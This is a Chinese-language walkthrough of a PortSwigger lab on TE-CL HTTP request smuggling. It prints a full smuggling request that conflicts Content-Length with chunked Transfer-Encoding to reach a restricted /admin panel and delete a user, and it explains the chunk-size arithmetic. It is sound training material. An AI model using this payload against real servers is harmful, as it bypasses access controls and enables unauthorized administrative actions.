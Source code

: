 #### TE-CL绕过前端服务器安全控制

同上面实验相反，前端服务器识别`Transfer-Encoding`，后端服务器识别`Content-Length`

**实验地址**：https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl

**实验描述**

本实验包含一个前端和后端服务器，后端服务器不支持`Transfer-Encoding`分块传输。现有一个管理员面板/admin，但被限制直接访问。

要完成本实验，需向后端服务器走私一个http请求以访问到管理员系统并删除名为`carlos`的用户。

**实验过程**

构造走私请求，这里构造请求同上面实验有些差别

```bash
POST / HTTP/1.1
Host: acc11f291f28854680882dae00df00bf.web-security-academy.net
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.80 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=DHsv0QPpKqKpsxRdjanyv0OdA5CUY9cn
Content-Length: 4
Transfer-Encoding: chunked

60
POST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

x=1
0

```

构造请求，提示需要添加`Host:localhost`

![](images/security_wiki/15905478983458.png)


如果对此处请求体构造有疑问可以查看chunk传输数据的格式

> chunk传输数据格式如下，其中size的值由16进制表示。
> 
> ```
> >[chunk size][\r\n][chunk data][\r\n][chunk size][\r\n][chunk data][\r\n][chunk size = 0[\r\n][\r\n]]
> >
> 
> ```

因而这里60对应的十进制是：96。恰好等于60以下到0以上数据的长度（包括\r\n）

此处需说明一点，请求包中chunk分块传输的数据库长度必须正确，同时走私请求中的Content-Length长度也需保证正确，否则会提示无法识别或非法请求。

![](images/security_wiki/15905479073647.png)


添加`Host:localhost`并修改数据块长度后重新发包

![](images/security_wiki/15905479186221.png)


修改走私请求为GET方式，多次发送最终成功删除用户。

![](images/security_wiki/15905479256682.png)


